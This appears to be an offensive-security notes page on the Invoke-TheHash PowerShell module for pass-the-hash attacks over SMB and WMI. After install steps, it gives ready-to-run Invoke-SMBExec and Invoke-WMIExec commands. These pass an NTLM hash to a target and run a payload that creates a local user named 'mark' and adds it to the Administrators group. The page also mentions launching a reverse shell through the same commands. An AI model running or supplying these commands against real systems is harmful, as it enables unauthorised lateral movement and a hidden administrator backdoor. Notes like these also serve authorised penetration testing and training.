```yaml
---
title: Invoke-TheHash
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
  - dump hashes
  - passwords
  - pass the hash attack
---
```


# Invoke-TheHash

Collection of PowerShell functions for performing Pass the Hash attacks with WMI and SMB. WMI and SMB connections are accessed through the .NET TCPClient. Authentication is performed by passing an NTLM hash into the NTLMv2 authentication protocol. Local administrator privileges are not required client-side, but the user and hash we use to authenticate need to have administrative rights on the target computer.


## Installation 

Download Powershell Invoke-TheHash fuctions from github repo:[https://github.com/Kevin-Robertson/Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash). 

When using Invoke-TheHash, we have two options: SMB or WMI command execution.

```powershell
cd C:\tools\Invoke-TheHash\

Import-Module .\Invoke-TheHash.psd1
```


## Invoke-TheHash with SMB

```powershell
Invoke-SMBExec -Target $ip -Domain <DOMAIN> -Username <USERNAME> -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
# Command to execute on the target. If a command is not specified, the function will check to see if the username and hash have access to WMI on the target.
# we can execute `Invoke-TheHash` to execute our PowerShell reverse shell script in the target computer.
```

[How to generate a reverse shell](reverse-shells.md).

## Invoke-TheHash with WMI

```powershell
Invoke-WMIExec -Target $machineName -Domain <DOMAIN> -Username <USERNAME> -Hash 64F12CDDAA88057E06A81B54E73B949B -Command  "net user mark Password123 /add && net localgroup administrators mark /add" 
```

[How to generate a reverse shell](reverse-shells.md).